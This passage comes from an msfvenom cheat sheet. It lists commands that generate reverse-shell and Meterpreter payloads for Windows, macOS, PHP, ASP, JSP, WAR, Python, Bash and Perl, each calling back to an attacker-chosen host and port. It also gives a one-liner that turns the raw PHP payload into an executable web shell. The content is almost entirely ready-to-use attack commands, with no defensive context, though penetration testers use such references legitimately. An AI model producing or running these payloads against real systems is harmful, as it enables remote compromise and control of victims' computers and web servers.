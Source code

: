       `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
      
      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
      
      **Web Payloads**
      
      *PHP*
      
      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      OR
      
      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:
      
      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
      
      *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
      
      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
      
      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
      
      **Scripting Payloads**
      
      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
      
      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
      
      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.
